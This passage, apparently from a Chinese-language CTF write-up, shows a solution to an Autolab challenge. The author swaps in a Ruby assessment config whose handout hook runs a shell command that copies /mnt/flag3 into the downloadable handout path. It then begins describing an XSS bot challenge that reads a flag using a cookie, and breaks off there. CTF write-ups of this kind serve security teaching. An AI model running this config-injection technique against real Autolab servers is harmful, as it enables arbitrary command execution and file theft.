 ```ruby
def handout
    course = @assessment.course.name
    asmt = @assessment.name
    file = "autograde-Makefile"

    file_path = "courses/#{course}/#{asmt}/#{file}"
    filename = "makefile"
    Hash["fullpath", file_path, "filename", filename]
end
```

当然，还专门提示了：`For security reasons, the handout path returned by the hook must reside within the lab folder.`，但只是 `file_path` 做了限制，先把 Flag 文件挪到 Lab 文件夹下就好了。

最后用 File Manager 替换 `datalab/datalab.rs` 这个文件，文件内容如下：

```ruby
require "AssessmentBase.rb"
module Datalab
	include AssessmentBase
	def handout
		course = @assessment.course.name
		asmt = @assessment.name
		file = "tmp"
		file_path = "courses/#{course}/#{asmt}/#{file}"
		system("cat /mnt/flag3 > " + file_path)
		filename = "surprise"
		Hash["fullpath", file_path, "filename", filename]
	end
end
```

然后记得在 `/courses/Geek-ICS/assessments/datalab` 页面点一下 Reload config file，再切到学生账户下载 handout，就可以得到 Flag 了！

### 好评返红包

> 感觉这个题确实不怎么难，主要需要耐着性子嗯看那个打包后的代码，还好大家都懒得看，让我捡了个一血。

首先简单阅读一下 `xssbot.py` 和 `flag_server.py`，可以看出运行逻辑是 `xssbot` 先访问 `/login` 获取 `cookie`，然后访问用户网页。只要能让 `xssbot` 带着 `cookie` 访问到 `/read_flag`，就能得到 Flag1，如果能获取到返回结果就可以得到 Flag2。

#### 光景

首先可以装上这个妙妙插件打开玩一玩，注意这个插件有一个 Service Worker 在后端运行，也需要打开看看 log。装好插件后，随便打开一个有图片的网页（比如验证码这个题），就可以看到图片右上角出现了一个悬浮窗：
